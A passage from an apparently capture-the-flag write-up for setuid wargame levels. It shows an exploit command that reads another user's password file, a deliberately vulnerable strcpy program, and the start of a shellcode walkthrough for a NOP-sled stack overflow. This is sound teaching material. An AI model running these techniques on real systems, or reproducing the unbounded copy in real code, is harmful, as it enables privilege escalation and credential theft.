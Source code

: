 ```
$ /levels/level03 -21 "cat /home/level03/.password $(printf '\xac\x84\x04\x08')
```




---
## Level 4: Classic Stack Overflow

Level 4 is about a classical Stack Overflow problem. Once again we get a **setuid** binary, together with the following code:

```
void fun(char *str)
{
 char buf[1024];
 strcpy(buf, str);
}

int main(int argc, char **argv)
{
 if (argc != 2) {
 printf("Usage: ./level04 STRING");
 exit(-1);
 }
 fun(argv[1]);
 printf("Oh no! That didn't work!\n");
 return 0;
}
```

In this challenge, the input string is received by the function **fun**, and then it is copied to the buffer. Since ```strcp``` does not perform bounds checking, if our string is larger than 1024 characters, it will keep copying until it reaches a NULL byte (0x00). This [overflows the stack](http://phrack.org/issues/49/14.html#article) and makes it possible to rewrite the **function return address**.

The input for the **fun** function is going to be 1024 bytes (which starts at **&buf**) with several [NOPs](http://en.wikipedia.org/wiki/NOP) plus the shellcode. The overflowed bytes have pointers to the address of **buf** (**&buf**). We use NOPs because the system uses stack randomization. If **&buf** points to any of the NOPs, the shellcode will be executed.


### Yet Another Shellcode Introduction

Shellcode can either be crafted directly in Assembly or reproduced in C and then disassembled in **gdb** and **objdump**. The second approach is more prone to errors.

Let's write the simplest shellcode we can think of, which simply spawns a shell:

```
#include <stdlib.h>
int main()
{
 char *array[2];
 array[0] = "/bin/sh";
 array[1] = NULL;
 execve(array[0], array, NULL);
 exit(0);
}
```
